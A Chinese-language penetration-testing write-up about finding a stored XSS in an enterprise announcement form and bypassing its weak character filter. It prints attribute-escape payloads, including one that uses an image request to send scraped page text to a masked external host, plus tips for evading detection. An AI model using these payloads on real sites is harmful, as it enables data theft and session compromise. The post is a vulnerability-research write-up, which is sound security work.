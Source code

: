 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU2NDY2OTU4Nw==&mid=2247521326&idx=1&sn=eee5b7db26999c41ad137213d0d90a1c

#  记录某企业存储型XSS漏洞从发现到数据外泄全路径分析  
 船山信安   2025-06-25 16:00  
  
本文章所分享内容仅用于网络安全相关的技术讨论和学习，注意，切勿用于违法途径，所有渗透测试都需要获取授权，违者后果自行承担，与本文章及作者无关，请谨记守法。  
  
# 0x1. 概述  
  
  
由于漏洞系统比较敏感，下面涉及域名地址的相关图片我就只能厚码打上，感谢各位看官的支持与理解!!!  
  
# 0x2. 正文  
  
#### 0x01 漏洞发现：  
  
  
进入系统后就发现有发布公告的功能点，当然会测试一番，好家伙，被过滤了，在换，再试，然后看js，确实过滤，就不断尝试，burp改包发包验证，常规xss语句看来是弹窗不了；不要问我为什么就觉得这里有问题，问就是凭借直觉和它做了过滤动作，必定有没有过滤到位的，自然也就坚持去搞搞。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LibzcsrG8Yj9x49XCl2ZtOIMDYv1qh0bcIT1E96ofxCDEyibp60OXAd0w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0Lw8Sca7ZKT05ha7d4IVzRwnQD4ZLZibeQiaVfB4h0LOs7Iq4pnk67JaMA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LSibYDIup6B7c7gO8icpWBa51YDe3kX6wJhIHUIofLRPAGshUiaSmSReMQ/640?wx_fmt=png&from=appmsg "")  
  
  
然后就看了，发布公告的里面输入框具体过滤什么，分析后就开始绕过之路！！！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LjPs8DiaEiaamjic1to37HELjibGF3GibcKBdbOFicfnuVGbJjCXguSOxYemg/640?wx_fmt=png&from=appmsg "")  
  
  
从js可以知道  
存在前端过滤+符号转义+禁用字符检测，同时也分析发现前端过滤机制excludeSpecial()函数被注释无效，containSpecial()仅检测$^<>和script关键词，就是使用绕过特殊字符检测，采用无尖括号事件处理器：onmouseover代替onload。  
  
  
  
#### 0x02 验证漏洞：  
  
  
分析后就如下方式尝试构造如下3个poc进行绕过：  
  
1. **语法构造优化**  
- " x="  
：强制闭合原始属性  
- 空格分隔：绕过空格过滤检测  
- 省略引号：采用无引号事件调用  
1. **特征规避技术**  
- 避免使用黑名单字符：  
<>$^  
等  
- 避开关键词：不使用  
script/js/http  
等  
- 使用低频事件处理器：onmouseover> onclick  
<table><tbody><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">POC</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">验证阶段</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">渗透对象</span></span></strong></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;alert(1)&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">基础验证弹窗</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">事件触发机制</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;alert(document.cookie)&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">会话穿透</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">HttpOnly Cookie保护</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;(new Image).src=&#39;...&#39;&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">数据渗出</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">DOM核心业务节点</span></span></p></td></tr></tbody></table>  

```
&#34; onmouseover=&#34;alert(1)&#34; x=&#34;

1. 关键字符检测仅限 [$^<>]，空格/引号/括号均被放行
2. &#34;script&#34;检测可通过事件处理器绕过
3. 未监控Image对象请求外部资源行为  
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0L8pWib9stpS9ETmc9aXudiaXUZ4mywtdB06q1DTZkiacPmmk8fXA2owgyw/640?wx_fmt=png&from=appmsg "")  
  
  
DOM精准渗透/流量伪装技术：  
  

```
&#34; onmouseover=&#34;alert(document.cookie)&#34; x=&#34;    

&#34; onmouseover=&#34;
  (new Image).src='https://x.xxx.xx.xx:8000/log?k='+encodeURIComponent(
    document.querySelector('.th_bg').innerText
  )
&#34; x=&#34; 

.th_bg             // 定位企业公告核心DOM节点
.innerText         // 文本提取避开HTML结构干扰
encodeURIComponent // 规避特殊字符警报
(new Image).src=   // 伪装图片请求
'http://'+IP+端口   // 绕过协议关键字检测
/log?k=            // 模拟正常日志请求

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LzVtGfSNOnKOJ8Eb0bdCL3ZKaruLLKMGzd49wfJMTdQJicZicIbTQmLjA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0L161YXUp9lSwGcReSEbyNecYs1AuDqSRmznYNOwhicAfsTWBqjACTlLA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞核心突破点**  
：  
  
- 无视  
containSpecial()  
函数对  
$^<>  
和  
script  
的检测  
- 利用前端过滤失效实现HTML属性逃逸  
- 实现从基础弹窗到业务数据窃取的攻击  
- 输入检测盲区 + 渲染层无过滤 = 持久化攻击链  
# 0x3. 总结  
  
  
**根本漏洞链**  
：  
  
     无效过滤函数 → 事件处理器白名单缺失 → 属性逃逸构造 → DOM数据渗出  
  
  
**完整漏洞链**  
：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LIP8TydtIY9ukS1gnr9icI4GSFmqvKAB8olEF19lSMvYdx0cpHZEicp5Q/640?wx_fmt=png&from=appmsg "")  
  
  
**渗透测试链路**  
：  
  

```
过滤检测 → 属性逃逸 → 事件注入 → 数据提取 → 外传通道

//坚持自己选择，不要遇到绕不过的就放弃了，毕竟有很多事情，不起尝试怎么知道自己不行咯！
```

# 0x4. 最后忠告  
  
  
XSS漏洞挖掘的本质是语法与规则的对抗。成功的挖掘必须建立在：  
  
1. 对过滤机制的逆向解构  
1. 业务场景数据节点的测绘  
1. 渗出通道的隐蔽性保障 保持对空格/引号/括号等基础语法元素的敏感性，往往比追求复杂攻击技术更有成效！  
转自:  
https://xz.aliyun.com/news/18290  
  
